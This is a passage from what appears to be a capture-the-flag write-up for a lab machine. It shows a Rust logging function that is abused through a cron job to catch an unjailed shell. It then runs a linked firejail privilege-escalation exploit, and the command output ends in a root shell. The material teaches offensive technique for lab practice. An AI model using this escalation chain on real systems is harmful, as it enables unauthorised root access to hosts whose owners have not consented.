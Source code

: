 ```rust
    }

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```
Then I need to execute the following command before the cron job cleans the file away:
```bash
cargo build
```
This will write the code to the log files and the cron job should run it every few seconds. Now I just need to start a listener and I get a shell back for Atlas that isn't jailed!!

The interesting thing is that the atlas user has permission to run firejail. Now we need an exploit:
https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25

This script will create a process in firejail that we can use to exploit the box. However, running the script will lock up the session and I need to run the join command in another atlas session. You can share the attack machines public rsa key to the box, or just edit the shell code from earlier to use a different port (if you are lazy like me). 

On one of the atlas shells, import the python script, change permissions to allow it to execute, then run it:
```bash
atlas@sandworm:~$ python3 exploit.py 
You can now run 'firejail --join=5095' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

Now in the other shell, I need to run the join command. This will spawn a new atlas shell. Then run 'su -' to switch to the root user:
```bash
atlas@sandworm:/opt/tipnet$ firejail --join=5095
firejail --join=5095
Warning: cleaning all supplementary groups
changing root to /proc/5095/root
Child process initialized in 11.95 ms
whoami
atlas
sudo su -
atlas is not in the sudoers file.  This incident will be reported.
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
su -
id
uid=0(root) gid=0(root) groups=0(root)
cd /root/
ls
Cleanup
domain.crt
```